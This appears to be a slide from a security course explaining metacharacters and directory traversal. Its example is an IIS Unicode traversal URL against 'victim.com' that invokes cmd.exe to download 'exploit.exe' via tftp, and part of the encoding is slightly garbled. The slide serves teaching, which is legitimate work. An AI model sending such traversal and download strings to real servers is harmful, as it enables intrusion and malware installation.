

# Metacharacters and Directory Traversal/Command Injection
Metacharacters are characters that have been assigned special programmatic meaning and have special powers that standard, normal character do not have.
‘  “  [ ] \ ; & ^ $ . | ? * + { } ( )
Directory traversal – an attack that enables an attacker to jump out of web root directory structure and into other part of the filesystem hosted by the web server’s OS
http://victim.com/scripts/..%c0?af../..%c0%af../..%c0%af../..%c0%af../..%c0%af../..winnt/system32/cmd.exe?/c+tftp+-i+get+exploit.exe